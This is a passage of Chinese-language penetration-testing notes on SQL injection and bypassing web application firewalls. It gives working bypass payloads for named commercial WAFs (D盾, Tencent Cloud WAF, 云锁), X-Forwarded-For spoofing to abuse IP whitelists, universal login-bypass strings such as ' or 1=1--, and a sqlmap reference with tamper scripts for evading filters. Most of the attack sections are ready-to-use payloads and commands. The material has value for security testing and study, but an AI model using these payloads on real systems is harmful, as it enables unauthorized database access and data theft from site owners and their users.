一些高性能的WAF可能使用这种方法可能不能bypass，但是一些软WAF使用这种方式还是可以bypass的。

http://wooyun.org/bugs/wooyun-2010-094367 一个bypass的例子，将请求并发同时发送多次，多次访问的时候就有几次漏掉了，没有触发waf的拦截。

Ps.作者自己在测试的时候曾经做了如下测试制造了一个payload，同时添加了大量的无效数据，使用脚本兵法发送该请求，发现请求的时候有些通过了WAF，有些被WAF所拦截了。应该就是性能问题导致了bypass。
```

#### fuzz bypass



```txt
使用脚本去探测WAF设备对于字符处理是否有异常，上面已经说过WAF在接收到网络数据之后会做相应的数据包解析，一些WAF可能由于自身的解析问题，对于某些字符解析出错，造成全局的bypass。 我测试的时候常常测试的位置：

1）：get请求处
2）：header请求处
3）：post urlencode内容处
4）：post form-data内容处
然后模糊测试的基础内容有：

1）编码过的0-255字符
2）进行编码的0-255字符
3）utf gbk字符
实例1：http://wooyun.org/bugs/wooyun-2010-087545

在一次测试安全狗的过程中，使用post的方式提交数据，提交数据包括两个参数，一个是正常的fuzz点，另一个参数包含一个sql注入语句。当在测试前面的fuzz点的时候，处理到\x00的字符的时候，没有提示安全狗阻拦。应该是解析这个字符的时候不当，导致了bypass。

实例2：http://wooyun.org/bugs/wooyun-2015-091516

在一次测试云WAF中，使用get方式提交数据，提交内容包括一个参数，参数为字符+sql注入的语句。当在fuzz字符的时候，发现云waf在处理到&字符的时候，没有提示云waf阻拦。由于&字符的特殊性，猜测是由于和url请求中的&没有处理好导致的。由于mysql中&&同样可以表示and，因此拼凑一下sql语句就达到了bypass的目的。

Ps.上面做模糊测试的时候仅仅是测试了一些各个位置的单个字符，应该还会有更复杂的测试，WAF并没想象的那么完美，肯定还可以fuzz出其他地方的问题。
```

#### 白名单bypass



```txt
WAF在设计之初一般都会考虑白名单功能。如来自管理IP的访问，来自cdn服务器的访问等等。这些请求是可信任的，不必走WAF检测流程。

获取白名单的ip地址如果是从网络层获取的ip，这种一般bypass不了，如果采用应用层的数据作为白名单，这样就可能造成bypass。

之前有一篇文章： http://h30499.www3.hp.com/t5/Fortify-Application-Security/Bypassing-web-application-firewalls-using-HTTP-headers/ba-p/6418366#.VGmhx9Yi5Mu

文章内容是通过修改http的header来bypass waf，这里我们截取文章中部分内容：
```



```txt
这些header常常用来获取IP，可能还有其他的，例如nginx-lua-waf:
```



```txt
获取clientip使用了X-Real-ip的header。

此种方法还可以用来绕过如登陆锁ip，登陆多次验证码，后台验证等等的场景。
```

### 结束语

```txt
特性就像是一个个特定的场景一样，一些是已经被研究人员发现的，一些是还没被发现，等待被研究人员发现的。
随着一个个特性的发现，WAF的防护能力在web对抗中逐渐增强，在我看来，当所有的特性场景均被WAF考虑到的时候，势必就会有的新的发现。（如我们现在了解的mysql的场景）
因此我们不用担心当所有的特性被WAF考虑到的时候我们无计可施，未知的特性那么多，我们还有很多地方可以去挖掘。
当你发现这些姿势都不好使的时候，你就该去发现一些新的特性了，毕竟设计WAF的选手都是基于目前的认知下去设计的，当新的特性出现的时候，势必又是一波bypass。
```

# 自动化注入技术

## sqlmap使用

```txt
sqlmap支持五种不同的注入模式：
参数：--technique
1、Boolean-based blind，基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
2、Time-based blind，基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
3、Error-based，基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
4、UNION query，联合查询注入，可以使用union的情况下的注入。
5、Stacked queries，堆查询注入，可以同时执行多条语句的执行时的注入。

sqlmap支持的数据库有：
MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB

常用参数：
-u
-r
--random-agent
--delay
--no-cast或者--hex  跑columns需要字典，使用参数解决

不常用参数:
参数拆分字符
参数：--param-del
当GET或POST的数据需要用其他字符分割测试参数的时候需要用到此参数。
例子：
python sqlmap.py -u "http://www.target.com/vuln.php" --data="query=foobar;id=1" --param-del=";" -f --banner --dbs --users

HTTP认证保护
参数：--auth-type,--auth-cred
这些参数可以用来登陆HTTP的认证保护支持三种方式：
1、Basic
2、Digest
3、NTLM
例子：
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/basic/get_int.php?id=1" --auth-type Basic --auth-cred "testuser:testpass"

HTTP协议的证书认证
参数：--auth-cert
当Web服务器需要客户端证书进行身份验证时，需要提供两个文件:key_file，cert_file。
key_file是格式为PEM文件，包含着你的私钥，cert_file是格式为PEM的连接文件。

HTTP(S)代理
参数：--proxy,--proxy-cred和--ignore-proxy
使用--proxy代理是格式为：http://url:port。
当HTTP(S)代理需要认证是可以使用--proxy-cred参数：username:password。
--ignore-proxy拒绝使用本地局域网的HTTP(S)代理。

HTTP请求延迟
参数：--delay
可以设定两个HTTP(S)请求间的延迟，设定为0.5的时候是半秒，默认是没有延迟的。

设定超时时间
参数：--timeout
可以设定一个HTTP(S)请求超过多久判定为超时，10.5表示10.5秒，默认是30秒。

设定延迟注入的时间
参数：--time-sec
当使用继续时间的盲注时，时刻使用--time-sec参数设定延时时间，默认是5秒。

设定重试超时
参数：--retries
当HTTP(S)超时时，可以设定重新尝试连接次数，默认是3次。

设定随机改变的参数值
参数：--randomize
可以设定某一个参数值在每一次请求中随机的变化，长度和类型会与提供的初始值一样。

利用正则过滤目标网址
参数：--scope
例如：
python sqlmap.py -l burp.log --scope="(www)?\.target\.(com|net|org)"

避免过多的错误请求被屏蔽
参数：--safe-url,--safe-freq
有的web应用程序会在你多次访问错误的请求时屏蔽掉你以后的所有请求，这样在sqlmap进行探测或者注入的时候可能造成错误请求而触发这个策略，导致以后无法进行。
绕过这个策略有两种方式：
1、--safe-url：提供一个安全不错误的连接，每隔一段时间都会去访问一下。
2、--safe-freq：提供一个安全不错误的连接，每次测试请求之后都会再访问一边安全连接。

关掉URL参数值编码
参数：--skip-urlencode
根据参数位置，他的值默认将会被URL编码，但是有些时候后端的web服务器不遵守RFC标准，只接受不经过URL编码的值，这时候就需要用--skip-urlencode参数。

每次请求时候执行自定义的python代码
参数：--eval
在有些时候，需要根据某个参数的变化，而修改另个一参数，才能形成正常的请求，这时可以用--eval参数在每次请求时根据所写python代码做完修改后请求。
例子：
python sqlmap.py -u "http://www.target.com/vuln.php?id=1&hash=c4ca4238a0b923820dcc509a6f75849b" --eval="import hashlib;hash=hashlib.md5(id).hexdigest()"

参数：--prefix,--suffix
在有些环境中，需要在注入的payload的前面或者后面加一些字符，来保证payload的正常执行。
例如，代码中是这样调用数据库的：
$query = "SELECT * FROM users WHERE id=(’" . $_GET[’id’] . "’) LIMIT 0, 1";
这时你就需要--prefix和--suffix参数了：
python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc"
这样执行的SQL语句变成：
$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1";

页面比较
参数：--string,--not-string,--regexp,--code
默认情况下sqlmap通过判断返回页面的不同来判断真假，但有时候这会产生误差，因为有的页面在每次刷新的时候都会返回不同的代码，比如页面当中包含一个动态的广告或者其他内容，这会导致sqlmap的误判。此时用户可以提供一个字符串或者一段正则匹配，在原始页面与真条件下的页面都存在的字符串，而错误页面中不存在（使用--string参数添加字符串，--regexp添加正则），同时用户可以提供一段字符串在原始页面与真条件下的页面都不存在的字符串，而错误页面中存在的字符串（--not-string添加）。用户也可以提供真与假条件返回的HTTP状态码不一样来注入，例如，响应200的时候为真，响应401的时候为假，可以添加参数--code=200。
参数：--text-only,--titles
有些时候用户知道真条件下的返回页面与假条件下返回页面是不同位置在哪里可以使用--text-only（HTTP响应体中不同）--titles（HTML的title标签中不同）。

设定UNION查询字段数
参数：--union-cols
默认情况下sqlmap测试UNION查询注入会测试1-10个字段数，当--level为5的时候他会增加测试到50个字段数。设定--union-cols的值应该是一段整数，如：12-16，是测试12-16个字段数。

二阶SQL注入
参数：--second-order
有些时候注入点输入的数据看返回结果的时候并不是当前的页面，而是另外的一个页面，这时候就需要你指定到哪个页面获取响应判断真假。--second-order后门跟一个判断页面的URL地址。

sqlmap risk level指数
参数：–risk 1(1,2,3)
共有四个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。
在有些时候，例如在UPDATE的语句中，注入一个OR的测试语句，可能导致更新的整个表，可能造成很大的风险。
参数：–level 1(2,3,4,5)
共有五个等级，默认为1，sqlmap使用的payload可以在xml/payloads.xml中看到，你也可以根据相应的格式添加自己的payload。
这个参数不仅影响使用哪些payload同时也会影响测试的注入点，GET和POST的数据都会测试，HTTP Cookie在level为2的时候就会测试，HTTP User-Agent/Referer头在level为3的时候就会测试。
总之在你不确定哪个payload或者参数为注入点的时候，为了保证全面性，建议使用高的level值。

参数：-p,--skip
sqlmap默认测试所有的GET和POST参数，当--level的值大于等于2的时候也会测试HTTP Cookie头的值，当大于等于3的时候也会测试User-Agent和HTTP Referer头的值。但是你可以手动用-p参数设置想要测试的参数。例如： -p "id,user-anget"
当你使用--level的值很大但是有个别参数不想测试的时候可以使用--skip参数。
例如：--skip="user-angent.referer"
在有些时候web服务器使用了URL重写，导致无法直接使用sqlmap测试参数，可以在想测试的参数后面加*

直接利用谷歌寻找网站的注入点
参数：-g
sqlmap可以测试注入Google的搜索结果中的GET参数（只获取前100个结果）。
例子：
python sqlmap.py -g "inurl:\".php?id=1\""

用于表单注入
参数：–data
此参数是把数据以POST方式提交，sqlmap会像检测GET参数一样检测POST的参数。

自动选择选择
--answers=ANSWERS   Set question answers (e.g. "quit=N,follow=N")

显示等级
参数：-v
显示sqlmap对一个点是进行了怎样的尝试判断以及读取数据的
共有七个等级，默认为1：
0、只显示python错误以及严重的信息。
1、同时显示基本信息和警告信息。（默认）
2、同时显示debug信息。
3、同时显示注入的payload。
4、同时显示HTTP请求。
5、同时显示HTTP响应头。
6、同时显示HTTP响应页面。
```

## 使用tamper绕过waf

```txt
tamper用法
python sqlmap.py -u "http:/www.xxx.com?id=1" --tamper=apostrophemask
apostrophemask.py 用UTF-8全角字符替换单引号字符
apostrophenullencode.py 用非法双字节unicode字符替换单引号字符
appendnullbyte.py 在payload末尾添加空字符编码
base64encode.py 对给定的payload全部字符使用Base64编码
between.py 分别用"NOT BETWEEN 0 AND #"替换大于号">"，"BETWEEN # AND #"替换等于号"="
bluecoat.py 在SQL语句之后用有效的随机空白符替换空格符，随后用"LIKE"替换等于号"="
chardoubleencode.py 对给定的payload全部字符使用双重URL编码（不处理已经编码的字符）
charencode.py 对给定的payload全部字符使用URL编码（不处理已经编码的字符）
charunicodeencode.py 对给定的payload的非编码字符使用Unicode URL编码（不处理已经编码的字符）
concat2concatws.py 用"CONCAT_WS(MID(CHAR(0), 0, 0), A, B)"替换像"CONCAT(A, B)"的实例
equaltolike.py 用"LIKE"运算符替换全部等于号"="
greatest.py 用"GREATEST"函数替换大于号">"
halfversionedmorekeywords.py 在每个关键字之前添加MySQL注释
ifnull2ifisnull.py 用"IF(ISNULL(A), B, A)"替换像"IFNULL(A, B)"的实例
lowercase.py 用小写值替换每个关键字字符
modsecurityversioned.py 用注释包围完整的查询
modsecurityzeroversioned.py 用当中带有数字零的注释包围完整的查询
multiplespaces.py 在SQL关键字周围添加多个空格
nonrecursivereplacement.py 用representations替换预定义SQL关键字，适用于过滤器
overlongutf8.py 转换给定的payload当中的所有字符
percentage.py 在每个字符之前添加一个百分号
randomcase.py 随机转换每个关键字字符的大小写
randomcomments.py 向SQL关键字中插入随机注释
securesphere.py 添加经过特殊构造的字符串
sp_password.py 向payload末尾添加"sp_password" for automatic obfuscation from DBMS logs
space2comment.py 用"/**/"替换空格符
space2dash.py 用破折号注释符"–"其次是一个随机字符串和一个换行符替换空格符
space2hash.py 用磅注释符"#"其次是一个随机字符串和一个换行符替换空格符
space2morehash.py 用磅注释符"#"其次是一个随机字符串和一个换行符替换空格符
space2mssqlblank.py 用一组有效的备选字符集当中的随机空白符替换空格符
space2mssqlhash.py 用磅注释符"#"其次是一个换行符替换空格符
space2mysqlblank.py 用一组有效的备选字符集当中的随机空白符替换空格符
space2mysqldash.py 用破折号注释符"–"其次是一个换行符替换空格符
space2plus.py 用加号"+"替换空格符
space2randomblank.py 用一组有效的备选字符集当中的随机空白符替换空格符
unionalltounion.py 用"UNION SELECT"替换"UNION ALL SELECT"
unmagicquotes.py 用一个多字节组合%bf%27和末尾通用注释一起替换空格符
varnish.py 添加一个HTTP头"X-originating-IP"来绕过WAF
versionedkeywords.py 用MySQL注释包围每个非函数关键字
versionedmorekeywords.py 用MySQL注释包围每个关键字
xforwardedfor.py 添加一个伪造的HTTP头"X-Forwarded-For"来绕过WAF

其他技巧：
xff注入：
伪造ip地址，当被记录到数据库中时，可能造成注入，在header中加入X-Forwarded-For然后将请求保存为xxx.txt，使用sqlmap -r "xxx.txt" --level 5
从数据库服务器中读取文件 参数：--file-read
把文件上传到数据库服务器中 参数：--file-write,--file-dest
爬行网站URL 参数：--crawl
非交互模式 参数：--batch
测试WAF/IPS/IDS保护 参数：--identify-waf
启发式判断注入 参数：--smart（有时对目标非常多的URL进行测试，为节省时间，只对能够快速判断为注入的报错点进行注入，可以使用此参数。）
```

# 其他注入技术

## 基于约束的SQL攻击

```txt
也就是二次注入的原理
因为sql的select是不忽视最大长度的限制的
而insert是有最大长度的限制的，超过长度限制就会发生截断。
所以可以利用insert插入一个任意用户名加（N个空格，一般64个）然后用select选择出来
select默认是选择第一条数据，所以存在一个任意用户登录的漏洞
```

## 万能密码（内联注入）

```txt
admin' --
admin' #
admin'/*
or '=' or
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--

实战例子：
select * from users where name='.username.' and pass='.password.';
在mysql查询语句中转义字符不参与闭合，当username='\'时，sql语句变成了：
select * from users where name='\' and pass='';
完成了闭合
再使pass=or 1=1#即可绕过
```

# 后续扩展

```txt
1. 需要：查询A union 查询B 后，返回查询B内容

2. select * from tab_name where id=1 or(列名)
其实是遍历字段名中的每个值然后选取那些不为false的内容
因为在mysql中'ssdd'字符串默认等于0等于false所以不显示
而'4ddf'这样的字符串默认等于4，也就是true也就会返回了

3. 无回显位，select * from test1 where id='$_GET[id]';使用payload：if(substr(flag,1,1)in(0x41),1,0)

4. Dnslog在SQL注入中的实战
https://www.anquanke.com/post/id/98096

5. 各种延时注入：
https://www.cnblogs.com/cyjaysun/p/4463979.html
```

## ctf注入相关wp

```txt
http://www.th1s.cn/index.php/2017/11/05/147.html

条件竞争注入：
http://www.pang0lin.com/?p=822

http://www.sdnisc.cn/detail_285_286_719.html

lctf:
https://chybeta.github.io/2017/11/18/LCTF-2017-Simple-blog-writeup/
```

## 新出现的waf绕过技术汇总

### 2017-10-19Bypass D盾_IIS防火墙SQL注入防御

#### IIS+PHP+MYSQL

##### 白名单绕过

PHP中的PATH_INFO问题，以下两个url等价

<http:/x.x.x.x/3.php?id=1>    <=>    <http://x.x.x.x/3.php/xxxxxxxxxxxxx?id=1>

从白名单中随便挑个地址加在后面，可成功bypass，[http://10.9.10.206/3.php/admin.php?id=1  union select 1,2,schema_name from information_schema.SCHEMATA]()

经测试，GET、POST、COOKIE均有效，完全bypass



##### 空白字符

Mysql中可以利用的空白字符有：%09,%0a,%0b,%0c,%0d,%20,%a0；

测试了一下，基本上针对MSSQL的[0x01-0x20]都被处理了，唯独在Mysql中还有一个%a0可以利用，可以看到%a0与select合体，无法识别，从而绕过。

id=1  union%a0select 1,2,3 from admin



##### \N形式

主要思考问题，如何绕过union select以及select from？

如果说上一个姿势是union和select之间的位置的探索，那么是否可以考虑在union前面进行检测呢？

为此在参数与union的位置，经测试，发现\N可以绕过union select检测，同样方式绕过select from的检测。

```
id=\Nunion(select 1,schema_name,\Nfrom information_schema.schemata)
```



#### IIS+ASP/ASPX+MSSQL

搭建IIS+ASP/ASPX+MSSQL环境，思路一致，只是语言与数据库特性有些许差异，继续来张D盾拦截图：



##### 白名单

ASP： 不支持，找不到路径，而且D盾禁止执行带非法字符或特殊目录的脚本（/1.asp/x），撤底没戏了

```
/admin.php/../1.asp?id=1 and 1=1    拦截
/1.asp?b=admin.php&id=1 and 1=1 拦截，可见D盾会识别到文件的位置，并不是只检测URL存在白名单那么简单了
```

ASPX：与PHP类似

```
/1.aspx/admin.php?id=1   union select 1,'2',TABLE_NAME from INFORMATION_SCHEMA.TABLES 可成功bypass
```



##### 空白字符

Mssql可以利用的空白字符有：01,02,03,04,05,06,07,08,09,0A,0B,0C,0D,0E,0F,10,11,12,13,14,15,16,17,18,19,1A,1B,1C,1D,1E,1F,20

[0x01-0x20]全部都被处理了，想到mysql %a0的漏网之鱼是否可以利用一下?

ASP+MSSQL:  不支持%a0，已放弃

ASPX+MSSQL: %a0+%0a配合，可成功绕过union select的检测

```
id=1 union%a0%0aselect 1,'2',TABLE_NAME %a0from INFORMATION_SCHEMA.TABLES
```


##### 1E形式

MSSQL属于强类型，这边的绕过是有限制，from前一位显示位为数字类型，这样才能用1efrom绕过select from。

只与数据库有关，与语言无关，故ASP与ASPX一样，可bypass

```
id=1eunion select '1',TABLE_NAME,1efrom INFORMATION_SCHEMA.TABLES
```



#### 参考文献

[http://www.5kik.com/other/607.html]()

### 2018-10-10绕过腾讯云waf并延时注入

```txt
http://xxx.xxx.xxx.xxx/?a=abc%22-sleep--%111%0A(15)-%22&act=1&t=solution&uid=8890
```

# 云锁绕过

## union select注入

核心原理：内联注释
```
union/*!60000x*/select 1--+

select database/**/()--+

1' -a()--+

192.168.80.136/sqli/Less-1/?id=-1' union/*!60000x*//*!00000select*/ 1,2,group_concat(table_name) from information_schema.columns where table_schema=0x7365637572697479 and table_name=0x7573657273--+
```

## 盲注入

1' %26%26 1=1--+

未过滤函数
ascii
substr
benchmark
